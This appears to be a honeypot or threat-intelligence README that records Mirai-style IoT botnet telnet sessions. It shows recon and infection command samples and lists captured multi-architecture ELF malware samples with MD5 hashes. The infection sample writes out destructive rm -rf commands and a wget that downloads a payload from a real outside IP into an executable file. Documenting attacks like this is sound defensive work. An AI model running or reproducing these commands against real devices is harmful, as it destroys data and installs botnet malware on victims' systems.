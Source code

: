 ### Recon phase (sample)
```
enable
shell
sh
/bin/busybox ZORRO
/bin/busybox wget
cat /proc/mounts && /bin/busybox ZORRO
/bin/busybox cat /bin/sh
```

### Infection phase (sample)
```
enable
shell
sh
/bin/busybox rm -rf /var/run/* /dev/* /tmp/* /var/run/* >/dev/null 2>&1; /bin/busybox WOPBOT
/bin/busybox mkdir -p /var/run; /bin/busybox WOPBOT
/bin/busybox cp -f /bin/sh /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox echo -ne '' > /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox chmod 777 /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox wget -O - http://85.118.98.197:61050/cyka/blyat/2.mp > /var/run/oMNUckLhyt && /bin/busybox WOPBOT
```

### Captured samples
* [1.mp](samples/1.mp.7z) (`ELF 32-bit, MIPS-I, MD5: eab8da47ff36cafd2662fd01b6959389`)
* [2.mp](samples/2.mp.7z) (`ELF 64-bit, MIPS-I, MD5: 4565f96cd8498a7e15ffa99e0d435d11`)
* [.arm](samples/arm.7z) (`ELF 32-bit, ARM, MD5: 8a7e32db13844f2d441340befd8dd8e9`)
* [.m68k](samples/m68k.7z) (`ELF 32-bit, Motorola 68020, MD5: 67c99761fac4c12e06fcf17fa1598360`)
* [.mp](samples/mp.7z) (`ELF 32-bit, MIPS-I, MD5: bdcee10dddb257baf6a84dd952f4c0dc`)
* [.mps](samples/mps.7z) (`ELF 32-bit, MIPS-I, MD5: 35e9948748c60f17f1f404e1debbb505`)
* [.ppc](samples/ppc.7z) (`ELF 32-bit, PowerPC, MD5: ad8c6e3fd1421a70a4df46117fa5da8b`)
* [.sh4](samples/sh4.7z) (`ELF 32-bit, Renesas SH, MD5: d82b630bc07d146f54f18861a0370243`)
* [.sparc](samples/sparc.7z) (`ELF 32-bit, SPARC, MD5: a14141949361398a8d9662b90168adeb`)

